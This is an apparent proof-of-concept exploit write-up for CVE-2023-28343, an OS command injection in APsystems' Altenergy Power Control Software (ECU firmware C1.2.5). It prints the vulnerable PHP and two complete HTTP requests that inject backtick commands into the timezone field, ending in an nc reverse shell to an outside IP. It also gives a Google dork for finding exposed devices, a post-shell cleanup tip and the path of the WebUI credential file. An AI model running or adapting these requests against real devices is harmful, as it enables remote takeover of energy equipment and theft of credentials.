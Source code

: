 ## title : OS command injection affects "Altenergy Power Control Software"
### SW ver: C1.2.5
### Vendor:  https://apsystems.com/
### CVE: CVE-2023-28343
### Google Dork: intitle:"Altenergy Power Control Software"
### Affected device: ENERGY COMMUNICATION UNIT
![Alt Text](https://www.ecodirect.com/v/vspfiles/photos/APSYSTEMS-YC500-ECU-2T.jpg)

## POC Video :
[![Watch the video](https://i.imgur.com/vKb2F1B.png)]([https://youtu.be/vt5fpE0bzSY](https://youtu.be/QwFS9QuQ3bI))

## vulnerable code :

"/home/local_web/pagesapplication/models/management_model.php"

```php
   public function set_timezone()
    {
        $results = array();

        //ΦÄ╖σÅûΘí╡Θ¥óΘÇëµï⌐τÜäµù╢σî║
        $timezone = $this->input->post('timezone');
        if(strlen($timezone) == 0)
                $timezone = "Asia/Taipei";

        //Φ«╛τ╜«linuxτ│╗τ╗ƒµù╢σî║
        $cmd = "cp /usr/share/zoneinfo/$timezone /etc/localtime";
        system($cmd);

        //σ░åµù╢σî║Σ┐¥σ¡ÿσê░Θàìτ╜«µûçΣ╗╢
        $fp = @fopen("/etc/yuneng/timezone.conf",'w');
        if($fp){
            fwrite($fp, $timezone);
            fclose($fp);
        }

```

## Exploit : 


HTTP request : 
```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 33
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`mknod /tmp/backpipe p `
```
HTTP request : 

```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`/bin/sh 0</tmp/backpipe | nc 156.197.154.12 4444 1>/tmp/backpipe`

```
POC : 

![Alt Text](POC.png)

** note **
- please use the following command after getting shell to avoid distorying the WEBUI.  
"echo Asia/Taipei > /etc/yuneng/timezone.conf"  

## Important files to check :  
- /etc/yuneng/passwd.conf this file contains the credentials for the WebUI.  
  
##References:  
- https://nvd.nist.gov/vuln/detail/CVE-2023-28343  
- https://github.com/advisories/GHSA-77pg-3832-hjf8  
